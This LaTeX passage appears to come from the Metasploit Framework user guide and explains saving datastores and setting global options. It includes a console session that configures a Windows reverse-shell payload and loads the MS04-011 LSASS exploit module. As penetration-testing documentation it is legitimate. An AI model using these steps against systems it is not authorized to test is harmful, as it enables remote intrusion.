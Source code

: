\documentclass{report}
\begin{document}
    \section{Saved DataStore}
    \label{ENV-SAVE}

\par
The \texttt{save} command can be used to synchronize the Global and all module
datastores to disk. The saved environment is written to
\texttt{HOME/.msf3/config} and will be loaded when any of the user interfaces
are executed.

    \section{DataStore Efficiency}
    \label{ENV-EFF}

\par
This split datastore system allows you save time during exploit development
and penetration testing. Common options between exploits can be defined in the
Global datastore once and automatically used in any exploit you load thereafter.

\par
The example below shows how the \texttt{LPORT}, \texttt{LHOST}, and
\texttt{PAYLOAD} global datastore can be used to save time when exploiting a
set of Windows-based targets. If this datastore was set and a Linux exploit
was being used, the module datastore (via \texttt{set} and \texttt{unset})
could be used to override these defaults.

{\footnotesize
\begin{verbatim}
f > setg LHOST 192.168.0.10
LHOST => 192.168.0.10
msf > setg LPORT 4445
LPORT => 4445
msf > setg PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > show options

Module options:

...

Payload options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.0.10     yes       The local address
   LPORT     4445             yes       The local port

...

\end{verbatim}}

    \section{DataStore Variables}
    \label{ENV-VAR}
\par
The datastore can be used to configure many aspects of the Framework, ranging
from user interface settings to specific timeout options in the network socket
API. This section describes the most commonly used environment variables.
\end{document}
